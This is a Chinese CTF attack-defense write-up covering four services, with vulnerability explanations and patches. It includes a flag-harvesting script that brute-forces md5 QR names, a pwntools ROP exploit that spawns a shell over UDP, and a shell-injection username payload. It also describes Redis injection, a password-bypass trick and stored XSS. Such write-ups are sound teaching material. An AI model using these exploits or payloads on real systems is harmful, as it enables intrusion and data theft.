## StudentCTFFinal

由於決賽分成學生隊伍以及其他隊伍分別打決賽，因此 qual 只有 15 名的我們也順利參加這次決賽。初賽解的題目多半沒有什麼較深入的技巧，比較難的在比賽中都沒有解開，但是決賽的題目與環境都很有趣，也考慮到後面名次的隊伍給提示，因此在 final 賽後稍微整理一下解題紀錄。


題目一共分成四個部分：

- graphotel
- rozlink
- rozlinkapi
- pixelbattle


### rozlink

本題為一個短網址的服務，使用者可以註冊一組帳戶，並在登入後新增自己的短網址，下方第一欄位輸入的是要被縮短的網址，第二個為查看該短網址狀態的 `access_key`：





新增短網址後，會出現一個短網址、QRcode、 link 狀態的畫面：



狀態的頁面如下：



而有個 **api** 分頁會在輸入一次密碼後給你 api key，讓你在 **rozlinkapi** 時可以使用：




**top** 分頁的功能能夠讓你查看 link 最多的使用者，以及近 10 個註冊的使用者：



使用者能在 **profile** 找到之前新增的 link 以及對應的 qrcode 連結：



以上是功能的部分，而 flag 是官方透過註冊一名新的使用者，並建立一個縮連結，縮連結跳轉到的地方就是 **rozlink** 的 flag，而該 link 的 access_key 就是 **rozlinkapi** 的 flag，因此我們的目標是很明確，**要取得官方使用者新增的連結**以及對應的 access_key。

題目大致如上，再來說明漏洞的部分。


#### vuln1. md5(link_id)

首先，link 一共有以下屬性，這些屬性也對應到 db 的 column：

- id - primary key
- large_link - 跳轉到的網址
- short_link - 短網址
- is_active - 是否啟動
- is_deleted - 是否刪除
- views
- user_id - user foreign key
- time - 新增時間
- access_key - 查看狀態的 stat key
- is_bin_generated

有些單純跟服務有關而已，不是很重要，因此只需要有個概念： link 是用來描述**短網址**的 table 即可。

新增 link 後會有一個 qrcode 的連結，對應到的程式碼如下：

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    form = LinkForm(request.form)

    if form.validate_on_submit():
        large_link = form.link.data
        if large_link:
            ...
            img = create_qr(app.config["SERVER_URI"] + '/' + dblink.short_link)
            qr_name = get_md5(str(dblink.id)) # <--- here
            save_qr(img=img, name=qr_name)
            ...
```

可以看到 `qr_name` 是單純 md5 link 的 id 產生，舉例來說，qrcode 連結 `/qr/1679091c5a880faf6fb5e6087eb1b2dc` 中的 `1679091c5a880faf6fb5e6087eb1b2dc` 其實是 `md5('6')`，而因為 db 的 id 是 primary key，會是一個個遞增上去，因此可以用 bt 的方式，以：

- 下載對應 linkid 的 qrcode
- 解析 qrcode 取得縮網址
- 檢查即將跳轉到的 url 是否含有 flag 格式的字串，有的話就送給 check server


patch 也十分簡單，只需要在後面加上特定字串，讓其他使用者猜測不出邏輯即可：

```diff
routes.py
- get_md5(str(dblink.id))
+ get_md5(str(dblink.id) + 'secret')

models.py
class Link(db.Model):
    ...
    def qr_link(self):
-       qr_name = get_md5(str(self.id))
+       qr_name = get_md5(str(self.id) + 'secret')
        return url_for("qr_image", filename=qr_name)
```


攻擊腳本如下：

```python
#!/usr/bin/python3

import subprocess
import requests
import hashlib
from pyzbar.pyzbar import decode
from PIL import Image
from pwn import *
import re
import threading
import socket

ip_list = [
    f'7.7.{i}.2' for i in range(1, 23)
]
rrr = remote('7.0.0.1', 31337)
print(rrr.recvline())

def job(ip):
    for link in range(860, 900):
        print(link)
        m = hashlib.md5()
        m.update(str(link).encode())
        r = requests.get(f'http://{ip}:8080/qr/{m.hexdigest()}', stream=True, timeout=3)
        if r.status_code == 200:
            open(f"./tmp_{ip}.png", "wb").write(r.content)
            img = Image.open(f'./tmp_{ip}.png')
            result = decode(img)
            
            for i in result:
                cmd = ("curl " + f"{i.data.decode()}"  + " -s -L -I -o /dev/null -w '%{url_effective}'").split(' ')
                proc = subprocess.Popen(cmd, stdout=subprocess.PIPE)
                out, _ = proc.communicate()
                flag = ''
                if '.com/flag/' in out.decode():
                    flag = out[1:-1].decode().split('.com/flag/')[1]
                if flag != '' and len(flag) == 32:
                    rrr.sendline(flag)
                    print(ip, rrr.recvline())

threads = {}
for ip in ip_list:
    threads[ip] = threading.Thread(target = job, args = (ip,))
    threads[ip].start()

for ip in ip_list:
    threads[ip].join()

rrr.close()
```


#### vuln2. login string replace

在使用者登入時，後端執行的程式碼大致如下：

```python
### routes.py
@app.route('/login', methods=["GET", "POST"])
def login():
    form = LoginForm(request.form)
    if form.validate_on_submit():
        log_username = form.login.data
        log_user = User.query.filter_by(login=log_username).first()
        if log_user:
            if log_user.check_password(form.password.data):
				...
                login_user(log_username, remember=form.remember_me.data)
                return redirect_dest(fallback=url_for('index'))

### users/__init__.py
def login_user(login, remember=False):
    login = prepare_log_string(login)
    user = User.query.filter_by(login=login).first()
    if not user:
        return None
    info(f'User "{login}" logged in')
    return lu(user, remember=remember)
```

首先 `login()` 會從 request 取得輸入的帳號與密碼，並從 db 中檢查是否密碼正確，最後執行 `login_user`。而在 `login_user`，會先從 `prepare_log_string(login)` 取得新的使用者名稱，然後奇怪的是，他又會執行一次 `User.query.filter_by`，並且這次查詢的是從 `prepare_log_string` 取得的新使用者名稱，而 `prepare_log_string` 做了些什麼：

```python
### logging/__init__.py
def prepare_log_string(string: str) -> str:
    return string.replace("\n", "").replace('"', '\\"').strip()
```

服務在做 log 時，會希望不要有換行 (`\n`) 、雙引號 (`"`) 以及前後的空白，因此在此 function 當中會將換行移除、雙引號、前後的空白移除或是跳脫掉，但是在註冊時並沒有檢查有沒有這些特殊字元：

```python
### routes.py
@app.route('/register', methods=["GET", "POST"])
def register():
    form = RegisterForm(request.form)
    if form.validate_on_submit():
        reg_login = form.login.data
        reg_user = User.query.filter_by(login=reg_login).first()
        if reg_user:
            ...
        new_user = User(login=reg_login) # <--- here
        new_user.set_password(form.password.data)
        ...
```

造成如果我今天註冊使用者為 `AAA\nAAA`，而如果服務當中已經有使用者叫做 `AAAAAA`，在用 `AAA\nAAA` 登入時會因為 `prepare_log_string` 讓使用者名稱變成 `AAAAAA`，最後不需要輸入密碼即可以 `AAAAAA` 使用者的身份執行。

綜合以上，此漏洞的攻擊步驟會是：

- 創造任意一個使用者，並透過 `/top` 分頁取得前 10 個註冊的使用者資訊，分析是否有新的使用者，如果有即有很大的機率是官方用來傳送 flag 的帳號，在此假設為 `ABCD`
- 註冊一個使用者為 `AB\nCD` 並登入，最後會是以 `ABCD` 使用者登入
- 到 `/profile` 找唯一新增的 link，解析後取得 flag


只需要將順序相反，先 login 在 `prepare_log_login(login)` 即可 patch：

```diff
### users/__init__.py
def login_user(login, remember=False):
-   login = prepare_log_string(login)
    user = User.query.filter_by(login=login).first()
    if not user:
        return None
+   login = prepare_log_string(login)
    info(f'User "{login}" logged in')
    return lu(user, remember=remember)
```


### rozlinkapi

rozlinkapi 是一個開在 3333 port 的 udp 服務，每當連線進來，就會 fork 一個 **dbconn.elf** process，而 **dbconn.elf** 的相關資訊：

```
// file
./dbconn.elf: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=933669b5e2495ebd51a850bfe35809888e12db10, for GNU/Linux 3.2.0, with debug_info, not stripped

// checksec
[*] '/tmp/dbconn.elf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

static 又給 symbol，保護機制又一堆沒開，看起來就是一個很有問題的 binary。用 `checksec` 檢查時雖然顯示有 canary，但是實際上在編譯時可以選擇 canary 出現在：

- 所有 function
- 除了 main 的其他 function

靜態 or 動態看會知道這邊是後者，所以 main function 若存在 BOF，則可以做 ROP 來 get shell。而實際上確實也有 BOF 的漏洞，變數 `st` 的大小為 `0x200`，但是輸入能夠讀取的大小卻是 `0x1000`：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  main::$B065A6967092339486E935555E3AF030 st; // [rsp+10h] [rbp-260h] BYREF
  ...

  j_memset_ifunc(st.buf, 0LL, 128LL);
  j_memset_ifunc(st.buf1, 0LL, 128LL);
  j_memset_ifunc(st.buf2, 0LL, 128LL);
  j_memset_ifunc(st.buf3, 0LL, 128LL);
  ...
  for ( i = 0; i <= 0; ++i )
  {
    fgets(st.buf, 0x1000LL, stdin); // <--- here 
    ...
```


修補方式很簡單，只需要把 `0x1000` patch 成 `0x200` 即可。


exploit 如下：

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']
r = remote('7.7.6.2', 3333, typ='udp')
#r = process('./dbconn.elf')
#gdb.attach(r, "")

syscall = 0x52b7b5
pop_rdi_ret = 0x4067ba
pop_rsi_ret = 0x5269d4
pop_rdx_ret = 0x40605f
pop_rax_ret = 0x40b3f7
ret = 0x40101f
bss = 0xfb6ff0
rop = flat([
    pop_rax_ret,
    0,
    pop_rdi_ret,
    0,
    pop_rsi_ret,
    bss,
    pop_rdx_ret,
    0x300,
    syscall,

    pop_rax_ret,
    0x3b,
    pop_rdi_ret,
    bss,
    pop_rsi_ret,
    0,
    pop_rdx_ret,
    0,
    syscall,
])
payload = b'a'*0x240 + rop
input()
r.sendline(payload)
input('>')
r.sendline('/bin/sh\x00')
r.interactive()
```

不過有趣的是，get shell 後什麼事情都不能做，似乎只能透過 binary 中用來執行 sql query 的 function 來做事情，不過後來時間不夠，當下也不確定 flag 的位置。


### graphotel

此題的設計為一個簡單的留言板，有註冊後的使用者可以寫下自己的文章：





在發布後可以下載成 pdf：



並且可以與他人共享：




賽中這題並非我負責，而隊友說官方會註冊一個使用者，寫入有 flag 的文章，因此我們的目標就是要看到那一篇文章，拿到 flag。 


#### vuln1. read the text of other users

程式碼不多，稍微看一下能發現服務並沒有在存取文章前做檢查，因此看文章時只需要傳入對應的 id 即可，不會檢查當前使用者，而文章的 id 在 db 中又是 primary key，因此可以用 bt 的方式找對應的 flag 文章。

```python
@app.route('/texts/<mdname>')
def readtext(mdname):
    mdfile = f"texts/{mdname}"
    c = get_db().cursor()
    c.execute('SELECT * FROM texts WHERE mdfile=? order by id', (mdfile,))
    result = c.fetchone()
    if not result:
        return Response(status=403)
    resp = make_response(render_template("singletext.html", text=open(result[5]).read(), id=result[0], title=result[3], author=result[1]), 200)
    ...
    return resp
```


修補方式也很直觀，在讀取前看是不是該使用者發布的文章，如果非 share 的話就不給看：

```diff
@app.route('/texts/<mdname>')
def readtext(mdname):
    mdfile = f"texts/{mdname}"
    c = get_db().cursor()
    c.execute('SELECT * FROM texts WHERE mdfile=? order by id', (mdfile,))
    result = c.fetchone()
    
    if not result:
        return Response(status=403) 
        
+	if result[2]:
+		try:
+			user = session["username"]
+		except:
+			return redirect("/login", code=302)
+		if user != result[1]:
+			return Response(status=403)

    resp = make_response(render_template("singletext.html", text=open(result[5]).read(), id=result[0], title=result[3], author=result[1]), 200)
    ...
    return resp
```


#### vuln2. cmd injection

在新增文章時，後端會將文章存成 md 檔與 html 檔後，用 `wkhtmltopdf` 轉成 pdf，之後使用者就可以存取輸出的 pdf 檔案：

```python
@app.route('/write', methods=['GET', 'POST'])
def write():
    try:
        author = session["username"]
    except:
        return redirect("/", code=302)
    if request.method == 'POST':
        ...
        text = request.values.get('text')
        author = session["username"]
        alphanumeric_title = ''.join(e for e in title if e.isalnum())
        mask = f"{date.today()}-{author}-{alphanumeric_title}".replace(" ", "_")
        mdfile = f"texts/{mask}.md"
        htmlfile = f"texts/{mask}.html"
        pdfile = f"texts/{mask}.pdf"
        with open(mdfile, "w") as f:
            f.write(text)
        with open(htmlfile, "w") as f:
            f.write(markdown.markdown(text))
        os.system(f"wkhtmltopdf --allow {app_path} {htmlfile} {pdfile}") # <-- here
        ...
```

但是 `author` 是可控的，如果註冊 `$(sleep${IFS}10)` 作為帳號名稱，則最後會執行 `sleep 10`，做到 cmd injection。這邊要注意的是，因為空白會被轉換成 `_`，因此 space 要換成 linux 的分割符來送，或是可以用 `{sleep,10}` 也可以。


因為 `author` 是唯一使用者可以控制的，雖然最好的做法是不要用 `os.system()`，不過最快的作法為在一開始使用者註冊時 sanitize username，讓其不要有特殊字元：

```diff
@app.route('/login', methods=['GET', 'POST'])
def login():
    ...
    if request.method == 'POST':
-       username = request.values.get('username')
+       username = ''.join(e for e in request.values.get('username') if e.isalnum())
        password = request.values.get('password')
        c = get_db().cursor()
    ...
```


### pixelbattle

這題提供一個 pixel 點擊的遊戲，在註冊後才能遊玩，而註冊完會先到 cabinet 頁面，cabinet 記錄著像是隊友、所有 team 名字、mailbox，還可以傳送訊息給其他 team：






之後點擊右上角的 **Go Battle !** 按鈕即可透過點擊畫面來宣告自己隊伍佔領的 pixel：




#### vuln1. nosql injection

在點擊 pixel 時，會透過 websocket 像後端傳送資料，而 websocket server 並沒有好好檢查傳入資料的型態是否正確：

```js
// api/ws.js
wss.on('connection', function (ws) {
  ws.on('message', async function (message) {
    console.log('received: %s', message);
    try{
      var d = `${message}`.split(",");

      if (d[0] === "get") {
        var result = await hget(d[1], d[2]);
        ws.send(`get,${d[1]},${d[2]},${result}`);
      }
      if (d[0] === "put") {
        var i = parseInt(d[1]);
        var j = parseInt(d[2]);
        var color = d[3].toUpperCase();
        ...
```

當第一個指令為 `get` 時，`d[1]` 與 `d[2]` 並沒有先轉成整數，而如果是字串的話，如果 `d[1]` 或 `d[2]` 傳入的是 **redis 的指令**，則可以直接撈到 redis db 內的資料。


patch 的方法為確保 `d[1]` 與 `d[2]` 為數字即可：

```diff
// api/ws.js
wss.on('connection', function (ws) {
  ws.on('message', async function (message) {
    console.log('received: %s', message);
    try{
      var d = `${message}`.split(",");

      if (d[0] === "get") {
        var result = await hget(d[1], d[2]);
-       ws.send(`get,${d[1]},${d[2]},${result}`);
+       ws.send(`get,${parseInt(d[1])},${parseInt(d[2])},${result}`);
      }
      if (d[0] === "put") {
        var i = parseInt(d[1]);
        var j = parseInt(d[2]);
        var color = d[3].toUpperCase();
        ...
```


#### vuln2. undefined password

因為在註冊時可以不輸入密碼，因此註冊時密碼會是空著的，而在登入時 `user.password` 會是 `undefined`，但是與 `""`  相加時會變成 `"undefined"`，因此密碼輸入 `undefined` 即可登入沒有密碼的隊伍：

```js
// api/routes/team.js
router.post('/signin', async function(req, res, next) {
  if (!req.body.login || !req.body.password) {
    return res.redirect('/teams/signin?invalid=true');
  }
  ...
  let user = JSON.parse(result);
  if (""+user.password == ""+req.body.password) { // <-- here
    req.session.user = user;
    return res.redirect('/cabinet');
  }
});
```


官方給的解法為不做 string casting，但是看起來好像沒辦法修好問題：

```diff
// api/routes/team.js
router.post('/signin', async function(req, res, next) {
  if (!req.body.login || !req.body.password) {
    return res.redirect('/teams/signin?invalid=true');
  }
  ...
  let user = JSON.parse(result);
- if (""+user.password == ""+req.body.password) {
+ if (user.password == req.body.password) {
    req.session.user = user;
    return res.redirect('/cabinet');
  }
});
```


#### vuln3. no js/html filter

在輸入隊名時，如果自己的隊名是 js code 或是 html，在 cabinet 頁面時會把 js code / html 直接 render，因此可以做到 XSS：

```jade
// cabinet.js
	  div.w-100
      div.col
        div.text-center
          h3.h3.mb-2.mt-2.font-weight-bold Notification log
          div
            ul.list-group
              each log_entry, i in log
